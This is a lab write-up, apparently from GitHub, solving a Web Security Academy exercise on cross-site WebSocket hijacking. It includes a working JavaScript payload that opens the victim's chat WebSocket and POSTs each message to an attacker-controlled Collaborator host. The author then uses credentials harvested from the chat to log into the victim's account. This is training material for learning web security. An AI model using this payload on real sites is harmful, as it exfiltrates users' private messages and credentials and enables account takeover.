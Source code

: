 # Lab: Cross-site WebSocket hijacking

 This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account. 

**Note**
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server. 


# Step 1 Find that the websocket handshake has no CSRF protection

I see that the websocket handshake has no CSRF protection:

![image](https://user-images.githubusercontent.com/83407557/213182437-3492ae03-86ae-4f1c-804b-3644307e61f8.png)

I also see that after the "READY" message is sent to the server, my full chat history is returned to my client:

![image](https://user-images.githubusercontent.com/83407557/213182921-ac494884-8f65-431b-aacf-fe4801a09dd1.png)


# Step 2 Creat a POC

First I want to get my burp collaborator URL:

![image](https://user-images.githubusercontent.com/83407557/213183079-15454649-6bba-4663-ab53-cef47dcd1b8d.png)

```
dn4npn1rpbdi72uubz3v15sqkhq8ey2n.oastify.com
```

Next I need to copy the handshake URL from the target site

```
https://0a9400f7037ab399c0e3d69a00a40051.web-security-academy.net/chat
```

Then finally I want to create a script that will capture the handshake and send my collaborator POST requests for each of the chat history messages that are being sent to the client:(note I change the handshake url from https to wss in order to use the websocket protocol:

```html
<script>
    var ws = new WebSocket('wss://0a9400f7037ab399c0e3d69a00a40051.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://dn4npn1rpbdi72uubz3v15sqkhq8ey2n.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

# Step 3 Test that the POC is working by capturing my own chat history

I POST the POC on my attack-server:

![image](https://user-images.githubusercontent.com/83407557/213184445-8ba086ff-5cd7-4122-ae3f-06fc0c50b189.png)

I then click on view exploit, to simulate a victim clicking on the link, and see the POST requests going through my http history in burp:

![image](https://user-images.githubusercontent.com/83407557/213184877-3a0b23f3-5f30-46b4-8e72-df1e336381b3.png)

In Collaborator I also see that I have gotten my full chat history via POST requests:

![image](https://user-images.githubusercontent.com/83407557/213185143-53f8b749-3db4-4ea5-9357-84f3b155a150.png)


# Step 4 Send Exploit to victim:

Back on my attack server I click Deliver exploit to victim, to simulate sending the victim a malicious link:

![image](https://user-images.githubusercontent.com/83407557/213185372-6390457e-d4ae-41f3-9cd9-ec284f485804.png)

# Step 5 Poll Collaborator

I see a POST request from the victim asking about their password:

![image](https://user-images.githubusercontent.com/83407557/213185892-fe925a5f-b252-43bf-abfc-1875202dd1cc.png)

And a POST request containing the password, as well as the username:

![image](https://user-images.githubusercontent.com/83407557/213186175-327a1d71-8174-4938-9cb0-f7e944b43928.png)

# Step 6 Use found creds

Using the found credentials, I login to the victim's account:

![image](https://user-images.githubusercontent.com/83407557/213186485-c7690fb2-9343-4f21-bfca-fdb68fbd6a81.png)

(Note there is CSRF protection on the login page)

These creds get me into the victim's account:

![image](https://user-images.githubusercontent.com/83407557/213186716-6d57dd39-d087-48fe-94a9-fc912baa28b1.png)

Which Solves the lab:

![image](https://user-images.githubusercontent.com/83407557/213186804-755050eb-89e5-466d-a086-0f3a771bcf09.png)


